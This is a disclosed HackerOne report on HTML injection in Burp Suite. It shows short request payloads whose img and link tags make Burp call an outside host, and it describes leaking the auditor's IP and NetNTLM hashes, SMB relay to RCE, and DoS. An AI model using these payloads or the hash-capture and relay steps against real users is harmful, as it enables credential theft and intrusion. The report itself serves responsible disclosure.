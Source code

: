 # HTML Injection in Swing can disclose netNTLM hash or cause DoS

## Report Details
- **Report ID**: 1054382
- **URL**: https://hackerone.com/reports/1054382
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-12-08T21:45:17.129Z
- **Disclosed**: 2021-03-29T09:27:47.942Z

## Reporter
- **Username**: issuefinder
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: portswigger

## Vulnerability Information
The vulnerability is like a SSRF but on the client side, where an attacker can force an unsolicited hidden request made by Burp Suite when the victim performs some actions.
During normal browsing to a website through Burp Suite (Pro or Community), if the website makes a request with HTML code in a GET parameter or in a POST body, and the auditor (the victim):
- Intercepts that request, or
- Selects that request in HTTP history (Proxy tab), or
- Sends that request to repeater, or
- In repeater, makes any change to the HTML code (preserving the main structure),

Burp Suite will do an unsolicited hidden request to the destination specified in the "img" or "link" HTML tags.

Next, you can see a GET and a POST example that trigger an unsolicited hidden request to "http://www.rec2.ml/leak" just by pasting them on a repeater tab:

## GET request (using the "img" tag)
```
GET /burpsuite_leak_vuln-leak_impact.html?=<html><img+src='http://www.rec2.ml/leak'> HTTP/1.1
```

## POST request (using the "link" tag)
```
POST /burpsuite_leak_vuln-leak_impact.html HTTP/1.1
Content-Type: application/x-www-form-urlencoded

=<html><link+rel='stylesheet'+href='http://www.rec2.ml/leak'>
```
In fact, a smaller payload to produce the same behaviour can be achieved by pasting the following on a repeater tab:
```
?=<html><img+src='http://www.rec2.ml/leak'>
```

## Impact

An attacker can exploit this vulnerability in at least 4 different ways:


##1. Real public IP address leak

The unsolicited hidden request does not respect the configuration in User options tab:
- Upstream Proxy Servers
- SOCKS proxy

An auditor (the victim), trying to hide his real public IP address from an audited website (using an upstream proxy server or a SOCKS proxy), would be leaking it without being aware of this fact.

Affected OS: Linux, MacOS, Windows
PoC video: burpsuite_leak_vuln-leak.mp4


##2. Windows NetNTLM hashes leak

If the HTML code uses the “file://” scheme instead of the “http[s]://” , it will produce an unsolicited hidden request using the SMB protocol that will negotiate and leak the auditor's:
- Username
- Computer name or domain
- NetNTLM hash

The NetNTLM can be cracked and therefore used at a later stage.
To negotiate and get the NetNTLM hash an attacker can use Responder (https://github.com/lgandx/Responder).

Affected OS: Windows
PoC video: burpsuite_leak_vuln-netntlm.mp4


##3. RCE on other machines

To perform this attack in the best scenario, an attacker must be on the same internal network with network visibility with the victim (auditor).
This attack is a variant of the previous one (2. Windows NetNTLM hashes leak) in which, instead of cracking the NetNTLM hash, the attacker does a MiTM to relay the SMB negotiation to other machines (without SMB signing enabled) and obtain a RCE in the context of the victim.

The HTML code must also use the “file://” scheme instead of the “http[s]://” , to produce an unsolicited hidden request using the SMB protocol.
To relay the SMB negotiation an attacker can use ntlmrelayx (https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py).

Affected OS: Windows
PoC video: burpsuite_leak_vuln-rce.mp4


##4. Denial of Service (DoS).

If the attacker does not respond to the unsolicited hidden request made by Burp Suite and keeps the TCP connection open, then it can freeze Burp Suite execution, forcing the auditor (victim) to lose the unsaved changes.

Affected OS: Linux, MacOS, Windows
PoC video: burpsuite_leak_vuln-dos.mp4

## Attachments
- burpsuite_leak_vuln-leak.mp4
- burpsuite_leak_vuln-netntlm.mp4
- burpsuite_leak_vuln-dos.mp4
- burpsuite_leak_vuln-rce.mp4
